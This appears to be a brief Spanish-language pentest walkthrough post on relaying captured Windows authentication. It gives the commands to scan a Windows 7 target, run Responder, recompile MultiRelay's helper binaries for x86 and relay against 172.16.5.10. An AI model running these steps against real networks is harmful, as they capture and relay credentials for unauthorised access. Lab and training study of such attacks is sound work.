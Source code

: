 ```yaml
---
title: 'Responder Attack'
description: 'Responder Attack'
pubDate: 'May 12 2023'
slug: 'responder_attack'
---
```


Si esta configurado con Windows 7 Enterprise 7601 Service Pack 1 es propenso a un **responder y multirelay** ataque.

```bash
nmap -A -O target_ip

# setup
responder -I eth1 --lm
ls /usr/share/responder/tools
...
```

El script MultiRelay.py utiliza Runas.exe y Syssvc.exe. Estos ejecutables son x86-64. Necesitamos un ejecutable compilado x86. Eliminemos ambos ejecutables y compilemos un archivo x86. El código fuente de ambos ejecutables está en el directorio /usr/share/responder/tools/MultiRelay/bin.

```bash
rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe
rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe

# generar nuevos ejecutables
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv

i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode

## luego correr
./MultiRelay.py -t 172.16.5.10 -u ALL

#y el respodner

responder -I eth1 --lm
```
